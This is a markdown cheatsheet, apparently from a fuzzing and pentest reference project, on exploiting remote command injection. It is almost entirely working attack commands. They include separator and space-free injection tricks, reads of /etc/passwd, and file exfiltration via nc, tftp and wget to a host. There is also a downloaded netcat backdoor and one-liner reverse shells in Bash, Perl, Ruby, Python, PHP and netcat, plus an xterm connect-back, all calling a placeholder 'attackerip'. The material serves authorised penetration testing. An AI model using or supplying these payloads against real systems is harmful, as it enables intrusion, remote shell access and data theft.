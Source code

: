 Remote Command Exec Cheatsheet

**Executing Commands**

Various ways of separating Commands:<br>
``` blah;blah2 ```

``` blah ^ blah 2```

```blah && blah2```

```FAIL || X```

``` blah%0Dblah2%0Dblah3 ```

``` `blah` ```

``` `blah & blah2` ```

**Shell commands without spaces**

Using Internal Field Separator (IFS):<br>
Test for cmd injection without spaces:<br>
``` sleep${IFS:0:1}20 ```<br>

Example IFS netcat backdoor without spaces:<br>
``` {wget,http://attackerip/nc} ```<br>
``` {chmod,+x,./nc} ```<br>
``` {./nc,-l,-p,1234,-e,/bin/bash} ```<br>

$IFS shell variable:<br>
``` cat$IFS/etc/passwd ```<br>
increment the first +1 to retrieve the entire file, line by line<br>
``` cat$IFS/etc/passwd|tail$IFS-n+1|head$IFS-n+1 ```

Shell Variables:<br>
``` CMD=$'cat\x20/etc/passwd';$CMD ```

shell variable, increment through file one line at a time: <br>
increment the first +1 to retrieve the entire file, line by line<br>
``` SP=$'\x20';cat$SP/etc/passwd|tail$SP-n+1|head$SP-n+1 ```

**Exfiltrating Files / Data**

FTP <br>
Make a new text file, and echo and then redirect to FTP

NC <br>
``` 'nc -e /bin/sh' ```

NC <br>
``` 'echo /etc/passwd  | nc host port' ```

TFTP <br>
``` 'echo put /etc/passwd | tftp host' ```

WGET: <br>
``` 'wget --post-file /etc/passwd' ```

**One-Liner Reverse Shells**

On the listener <br>
``` $ nc -l -p 1234 -vvv' ```

On the remote host...<br>
<br>
Bash:<br>
``` $ bash -i >& /dev/tcp/attackerip/1234 0>&1 ```

``` $ exec 5<>/dev/tcp/attackerip/1234 ```<br>
``` $ cat <&5 | while read line; do $line 2>&5 >&5; done ```

Perl<br>
```$ perl -e 'use Socket;$i="attackerip";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ```

Perl for Windows target
``` perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' ```

Ruby<br>
``` $ ruby -rsocket -e'f=TCPSocket.open("attackerip",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' ```

Python<br>
``` $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ```

PHP<br>
``` $ php -r '$sock=fsockopen("attackerip",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ```
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)

Netcat<br>
``` $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip 1234 >/tmp/f ```

Bash<br>
``` bash -i >& /dev/tcp/attackerip/1234 0>&1 ```


**XTERM**<br>
 To catch incoming xterm, start an open X Server on your system (:1 - which listens on TCP port 6001) with [Xnest](http://www.xfree86.org/4.4.0/Xnest.1.html):<br>
<br>
``` Xnest :1 ```
<br>
Authorize the target IP's connection to you:<br>
<br>
Run this OUTSIDE the Xnest:<br>
``` xterm -display 127.0.0.1:1 ``` 

Run this INSIDE the spawned xterm on the open X Server<br>
``` xhost +targetip ```

Then on the target, assuming that xterm is installed, connect back to the open X Server on your system:<br>
``` xterm -display attackerip:1 ```
<br>or<br>
``` DISPLAY=attackerip:0 xterm ```<br>
It will try to connect back to you, attackerip, on TCP port 6001.<br>

If the xterm path is not within the PATH environment variable, you need to specify its filepath. Solaris path example:<br>
``` /usr/openwin/bin/xterm -display attackerip:1 ```



<br>More docs: [/docs/attack-docs/remote-cmd-exfiltration/](https://github.com/fuzzdb-project/fuzzdb/tree/master/docs/attack-docs/remote-cmd-exfiltration)<br>
